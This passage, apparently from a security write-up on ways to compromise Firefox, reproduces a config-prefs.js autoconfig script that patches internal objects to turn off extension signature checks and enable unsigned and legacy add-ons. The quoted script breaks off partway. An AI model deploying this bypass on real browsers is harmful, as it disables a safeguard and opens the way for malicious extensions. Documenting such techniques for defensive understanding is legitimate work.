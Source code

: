 This section is provided for information purposes only, to show that there are other ways of compromising the browser. For example by using the configuration provided by banbot [[19](#references)] which allows the installation of extensions not signed by Mozilla:

***config-prefs.js*** - Firefox v102+, author: banbot [[19](#references)]

```javascript
try {(jsval => {
	var dbg, gref, genv = func => {
		var sandbox = new Cu.Sandbox(g, {freshCompartment: true});
		Cc["@mozilla.org/jsdebugger;1"].createInstance(Ci.IJSDebugger).addClass(sandbox);
		(dbg = new sandbox.Debugger()).addDebuggee(g);
		gref = dbg.makeGlobalObjectReference(g);
		return (genv = func => func && gref.makeDebuggeeValue(func).environment)(func);
	}
	var g = Cu.getGlobalForObject(jsval), o = g.Object, {freeze} = o, disleg;

	var AC = "AppConstants", uac = `resource://gre/modules/${AC}.`;
	var lexp = () => lockPref("extensions.experiments.enabled", true);
	if (o.isFrozen(o)) { // Fx 102.0b7+
		lexp(); disleg = true;
		var env, def = g.ChromeUtils.defineModuleGetter;
		g.ChromeUtils.defineModuleGetter = (...args) => {
			try {
				genv();
				dbg.addDebuggee(globalThis);
				var e = dbg.getNewestFrame().older.environment;
				var obj = e.parent.type == "object" && e.parent.object;
				if (obj && obj.class.startsWith("N")) // JSM, NSVO
					obj.unsafeDereference().Object = {
						freeze: ac => (ac.MOZ_REQUIRE_SIGNING = false) || freeze(ac)
					};
				else env = e; // ESM, Lexy "var"(?)
			}
			catch(ex) {Cu.reportError(ex);}
			(g.ChromeUtils.defineModuleGetter = def)(...args);
		}
		ChromeUtils.import(uac + "jsm");
		// (?)
		env && env.setVariable(AC, gref.makeDebuggeeValue(freeze(o.assign(
			new o(), env.getVariable(AC).unsafeDereference(), {MOZ_REQUIRE_SIGNING: false}
		))));
	}
	else o.freeze = obj => {
		if (!Components.stack.caller.filename.startsWith(uac)) return freeze(obj);
		obj.MOZ_REQUIRE_SIGNING = false;

		if ((disleg = "MOZ_ALLOW_ADDON_SIDELOAD" in obj)) lexp();
		else
			obj.MOZ_ALLOW_LEGACY_EXTENSIONS = true,
			lockPref("extensions.legacy.enabled", true);

		return (o.freeze = freeze)(obj);
	}
	lockPref("xpinstall.signatures.required", false);
	lockPref("extensions.langpacks.signatures.required", false);

	var useDbg = true, xpii = "resource://gre/modules/addons/XPIInstall.jsm";
	if (Ci.nsINativeFileWatcherService) { // Fx < 100
		jsval = Cu.import(xpii, {});
		var shouldVerify = jsval.shouldVerifySignedState;
		if (shouldVerify.length == 1)
			useDbg = false,
			jsval.shouldVerifySignedState = addon => !addon.id && shouldVerify(addon);
	}
```